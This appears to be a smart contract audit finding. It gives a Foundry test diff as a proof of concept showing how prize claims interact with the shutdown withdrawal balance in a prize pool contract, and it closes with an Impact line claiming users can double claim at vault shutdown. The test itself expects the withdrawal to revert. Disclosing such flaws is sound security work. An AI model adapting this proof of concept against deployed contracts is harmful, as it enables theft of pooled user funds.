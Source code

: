 ```diff
+    address user1 = address(100);
+    //address user2 = address(200);
+
+    // mint tokens to the user in twab
+    twabController.mint(user1, 10e18);
+    //twabController.mint(user2, 5e18);
+
+    // contribute prize tokens to the vault
+    prizeToken.mint(address(prizePool),100e18);
+    prizePool.contributePrizeTokens(address(this),100e18);
+
+    // move to the next draw and award this one
+    vm.warp(secondLastDrawStart + drawPeriodSeconds + 1);
+    prizePool.awardDraw(100);
+    uint drawId = prizePool.getOpenDrawId();
+
+    //currently not shutdown. but shutdown will occur in the middle of this draw allowing both prize claiming and the shutdown withdrawal
+    uint shutdownTimestamp = prizePool.shutdownAt();
+    assert(shutdownTimestamp == secondLastDrawStart + drawPeriodSeconds + periodLength);
+
+    vm.warp(shutdownTimestamp);
+
+    // call to store the shutdown data before the prize is claimed
+    prizePool.shutdownBalanceOf(address(this),user1);
+
+    /**
+     * address _winner,
+    uint8 _tier,
+    uint32 _prizeIndex,
+    address _prizeRecipient,
+    uint96 _claimReward,
+    address _claimRewardRecipient
+     */
+    prizePool.claimPrize(user1,1,0,user1,0,address(0));
+
+    // no withdrawing shutdown balance will revert due to the amount being withdrawn earlier via the claimPrize function
+    vm.prank(user1);
+    vm.expectRevert();
+    prizePool.withdrawShutdownBalance(address(this),user1);
+  }
+
   function testConstructor() public {
     assertEq(prizePool.firstDrawOpensAt(), firstDrawOpensAt);
     assertEq(prizePool.drawPeriodSeconds(), drawPeriodSeconds);

```

## Impact
User's can double claim assets when vault shutdowns eventually
